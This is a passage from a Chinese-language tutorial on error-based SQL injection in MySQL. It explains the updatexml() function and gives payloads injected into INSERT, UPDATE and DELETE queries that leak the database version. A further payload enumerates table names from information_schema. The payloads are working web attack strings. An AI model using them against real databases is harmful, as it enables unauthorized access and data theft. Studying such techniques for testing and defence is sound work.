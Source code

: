 updatexml()函数是 MYSQL 对 XML 文档数据进行查询和修改的 XPATH 函数。

payload：

```
or updatexml(1,concat(0x7e,(version())),0) or 
```

Insert：

```
INSERT INTO users (id, username, password) VALUES (2,'Olivia' or updatexml(1,concat(0x7e,(version())),0) or'', 'Nervo'); 
```

![enter image description here](img/img4_u20_png.jpg)

Update：

```
UPDATE users SET password='Nicky' or updatexml(2,concat(0x7e,(version())),0) or''WHERE id=2 and username='Olivia'; 
```

![enter image description here](img/img5_u22_png.jpg)

Delete：

```
DELETE FROM users WHERE id=2 or updatexml(1,concat(0x7e,(version())),0) or''; 
```

![enter image description here](img/img6_u20_png.jpg)

提取数据：

由于篇幅有限，在 insert、update、delete 用法一致的时候，我会仅以 insert 为例说明。

所用的 payload 为：

```
or updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0) or 
```

获取 newdb 数据库表名：

![enter image description here](img/img7_u10_png.jpg)
